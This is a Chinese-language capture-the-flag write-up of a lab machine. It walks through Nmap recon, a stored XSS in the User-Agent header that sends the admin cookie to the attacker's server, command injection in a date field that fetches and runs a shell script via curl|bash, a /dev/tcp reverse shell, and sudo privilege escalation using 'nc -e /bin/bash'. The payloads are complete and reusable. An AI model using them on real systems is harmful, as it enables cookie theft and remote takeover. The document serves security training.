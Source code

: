 ## 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.11.18 -oA scans/ports
...
PORT   STATE SERVICE
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
···
root@kali# nmap -sT -sC -sV -O -p22,5000 10.10.11.18 -oA scans/details
...
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Thu, 28 Mar 2024 15:01:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
...
```

开放了22和5000端口，22端口自然是openssh，但5000端口这个协议不常见啊，查了一下upnp协议好像是在路由器上运行的服务，不过跑出了http协议，浏览器访问一下

![截图](e61f1a90472abb9527ac6626806e3bc5.png)

## 目录FUZZ

用dirsearch扫一下：

![截图](e7bdcf4e5d14739b5eec5524b23aa320.png)

其中support是

![截图](9c0d64c142ed152763b261b8e0b125d1.png)

试图直接在这里获得信息但是没什么回显
另一个进不去，/dashboard显示

![截图](6381a05d2bfc018d55d2d71b61ecb7fd.png)

那么很有可能是需要拿到授权才能进来这个页面，现在我们把关注点在再放到/support上

## 网站信息

![截图](340b23dce04c17512415fbfdfcff4a38.png)

网站使用了python中的flask模板，所以现在了一下几个攻击思路：

**1.SSTI注入（flask）**

**2.sql注入（表单）**

**3.xss（表单+网站场景）**

遂一个一个尝试，于是打开burp随便输入了一个SSTI的%a0截断

![截图](234acd5e7c44414fafb8957d53302ecd.png)

爆出了一个waf页面，提示这个browser information会被发送给管理员，哦豁，好像xss的可能性增加了（就是xss）

# 漏洞利用

## 通过xss漏洞拿到admin认证

所以我们在浏览器的基本信息里插入xss看看会不会成功吧，这里选择user-agent字段。于是有以下数据包：

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 47
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <img src=15m0 onerror=fetch("http://10.10.16.62:8666/?cookie="+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

fname=1&lname=1&email=1@1.com&phone=1&message=1%0a{{1*1}}
```

这里我们要故意让这个数据包触发违规，这样数据包才能发送到管理员那里。这样我们就构造好了一个恶意xss数据包，但是别着急，我们还要在本地用python开一个服务器以便接收请求。

把这个包转到repeater中，然后在终端监听一个端口。

```
python3 -m http.server 8666
```

![截图](94d34b2f51921adae4303be23b539e8a.png)

然后我们发送数据包给网站，然后静静等待，果然弹出了cookie

![截图](bfb281df55f718518f36a4ad25e7848a.png)

观察这个字段发现是base64编码，解码后是`is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`,再重新把这个cookie放到浏览器，显示：

![截图](cff222b7a4307cf46235c0b3794df733.png)

此时顺利拿到admin的身份

## 反弹shell

目前就这一个按钮，我们抓包看看

![截图](3182005a3b20b33db5c270e51d6ec917.png)

在添加了Cookie字段后发现了一个post包里发送了一个date字段，这里就试试看能不能反弹shell吧

于是有以下数据包

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Cookie:is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

date=2023-09-15;curl http://10.10.16.88:8888/shell.sh|bash;
```

当然这里我们将以下代码写入shell.sh中

```
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.88/1234 0>&1'
```

然后我们python来搭建服务器

```
python3 -m http.server 8888 -d ./
```

然后

```
nc -nlvp 1234
```

发送数据包等待

![截图](f682911dff32fa7b29c3c08ad0e61962.png)

# 提权

```
sudo -l
```

看可以用的东西，重点发现有个/usr/bin/syscheck

![截图](f1c92c4086c71ee5140c6f8b26bf16b7.png)

![截图](11f4a42ffe465b8d0b5ffee0cfb2a05a.png)

发现其实是调用了本地文件夹下的一个initdb.sh文件，那我们只需要向其中写入能让我们提权的代码就好了。

```
echo "nc -e /bin/bash 10.10.16.88 3888" > initdb.sh
```

然后监听3888端口

```
nc -nlvp 3888
```

然后sudo执行程序

```
sudo /usr/bin/syscheck
```

![截图](bac436fb70309348b05915c5e823bc98.png)